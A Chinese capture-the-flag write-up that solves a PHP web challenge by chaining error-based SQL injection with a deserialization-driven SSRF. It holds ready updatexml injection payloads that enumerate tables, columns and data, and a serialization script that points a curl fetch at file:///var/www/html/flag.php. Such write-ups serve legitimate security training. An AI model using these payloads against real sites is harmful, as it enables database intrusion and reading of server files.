





# 考察知识点：

1.sql报错注入

2.ssrf搭配序列化

3.robots.txt

4.file:///协议


# 1.访问robots.txt

提示存在/user.php.bak



# 2.user.php

```javascript
<?php


class UserInfo
{
    public $name = "";
    public $age = 0;
    public $blog = "";

    public function __construct($name, $age, $blog)
    {
        $this->name = $name;
        $this->age = (int)$age;
        $this->blog = $blog;
    }

    function get($url)
    {
        $ch = curl_init();

        curl_setopt($ch, CURLOPT_URL, $url);
        curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
        $output = curl_exec($ch);
        $httpCode = curl_getinfo($ch, CURLINFO_HTTP_CODE);
        if($httpCode == 404) {
            return 404;
        }
        curl_close($ch);

        return $output;
    }

    public function getBlogContents ()
    {
        return $this->get($this->blog);
    }

    public function isValidBlog ()
    {
        $blog = $this->blog;
        return preg_match("/^(((http(s?))\:\/\/)?)([0-9a-zA-Z\-]+\.)+[a-zA-Z]{2,6}(\:[0-9]+)?(\/\S*)?$/i", $blog);
    }

}
```


get方法，明显存在ssrf漏洞，__construct也有可能存在序列化


同时访问flag.php也存在flag.php文件，所以大体思路就是ssrf访问flag.php文件得到flag


# 3.发现view.php存在sql注入漏洞

有报错，所以考虑报错注入，注入没有任何限制，注入得到


## 3.1.查表名

?no=1 and updatexml(1,make_set(7,'~',(select group_concat(table_name) from information_schema.tables where table_schema=database())),1)#




## 3.2.查字段

?no=1 and updatexml(1,make_set(7,'~',(select group_concat(column_name) from information_schema.columns where table_name="users")),1)#




## 3.3.查数据

?no=1 and updatexml(1,make_set(7,'~',(select data from users)),1)#




# 4.得到的data字段的数据为序列化数据

此时可以大体推断view.php从数据库中读取序列化数据然后反序列化时触发user.php中的__construct函数赋值，并显示出来


# 5.结合user.php中的ssrf漏洞，此时可以大体明白攻击思路

## 5.1 构造序列化数据

## 5.2sql注入漏洞查询触发，构造的序列化数据，得到flag.php文件的内容


# 6.构造序列化数据

```javascript
<?php


class UserInfo
{
    public $name = "s";
    public $age = 10;
    public $blog = "file:///var/www/html/flag.php";
    //public $blog=http://afd9e3f3-e747-4959-b506-f86d8accc887.node3.buuoj.cn/flag.php
}

$u=new UserInfo();
echo serialize($u);
```

此处注意，需要使用file://协议

使用$blog=http://afd9e3f3-e747-4959-b506-f86d8accc887.node3.buuoj.cn/flag.php 无法触发ssrf漏洞


# 7.触发构造的序列化数据




base64解码即可得到flag


